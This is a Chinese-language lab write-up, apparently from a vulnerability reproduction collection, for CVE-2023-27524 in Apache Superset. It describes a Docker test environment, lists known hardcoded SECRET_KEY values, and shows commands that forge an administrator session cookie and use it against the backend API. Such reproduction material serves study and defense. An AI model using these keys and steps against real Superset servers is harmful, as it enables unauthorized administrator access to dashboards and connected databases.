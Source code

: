 # Apache Superset 硬编码JWT密钥导致认证绕过漏洞（CVE-2023-27524）

Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset存在一个硬编码JWT密钥漏洞（CVE-2023-27524）。该应用程序默认配置了一个预设的`SECRET_KEY`值，用于签名会话Cookie。当管理员未更改这个默认密钥时，攻击者可以伪造有效的会话Cookie并以任意用户（包括管理员）身份进行认证。这允许未授权访问Superset仪表盘、连接的数据库，并可能导致远程代码执行。

当与 [CVE-2023-37941](../CVE-2023-37941/README.md) 结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。不过本文档只展示CVE-2023-27524的利用。

参考链接：

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

## 环境搭建

执行以下命令启动Apache Superset 2.0.1服务器：

```
docker compose up -d
```

服务启动后，可以通过`http://your-ip:8088`访问Superset。默认登录凭据为admin/vulhub。

## 漏洞复现

这个漏洞存在的原因是Superset使用以下硬编码的`SECRET_KEY`作为密钥来签名Cookie：

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (版本 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (版本 >= 1.4.1)
- `thisISaSECRET_1234`
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`
- `TEST_NON_DEV_SECRET`

使用[CVE-2023-27524.py](CVE-2023-27524.py)伪造管理员（用户id为1）会话Cookie：

```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话Cookie。如果成功，它将伪造一个新的会话Cookie，其中user_id=1（通常是管理员用户），并验证登录。

![](1.png)

将这个伪造的JWT令牌添加到Cookie值中，如`Cookie: session=eyJ...`，即可访问Superset的后端API：

![](2.png)
